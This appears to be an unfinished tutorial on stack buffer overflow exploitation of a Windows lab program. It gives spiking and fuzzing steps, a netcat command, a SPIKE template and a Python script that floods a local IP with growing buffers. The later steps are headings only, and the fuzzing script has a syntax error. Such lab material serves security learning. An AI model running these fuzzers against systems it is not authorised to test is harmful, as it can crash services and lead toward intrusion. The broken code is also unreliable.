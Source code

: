 Open the exe file as admin
Go to Debugger and then File -> Attach and then select the program.

## Step 1: SPIKING (Find vulnerable part of program)

Connect to the vuln application
```bash
nc -nv (ip addr of your windows machine it is running on) (port number): my ip is 10.0.0.52
```
Now throw bunch of charecters in each command and see if any of the commands accepted by the application is vulnerable
TO throw bunch of charecter we use 
```bash
./generic_send_tcp (ip adddr) (port) (some.spk) 
```
some.spk will look like: you can send as many charecter. just try to break the program
```bash
s_readline();
s_string("Some command name to test ");
s_string_variable("0");
```

Look you have to overwrite everything(ESP, EBP) till EIP. EIP will help to get the root access to anything.
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************

## Step 2: Fuzzing (Send bunch of charecter to break the program)
Use the below python code for a fuzzing script to break the specific command.
```bash
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.0.52', 9999))
		
		s.send(('TRUN /.:/ + buffer))
		s.close
		sleep(1)
		buffer = buffer + "A"*100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()
```
then do
```bash
chmod +x file.py
```




************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 3: Finding the offset (At what point it breaks)
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 4: Overwriting the EIP
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 5: Finding the Bad Charecters
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 6: Finding the right module
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 7: Generating shellcode
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 8: Gain Root
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************




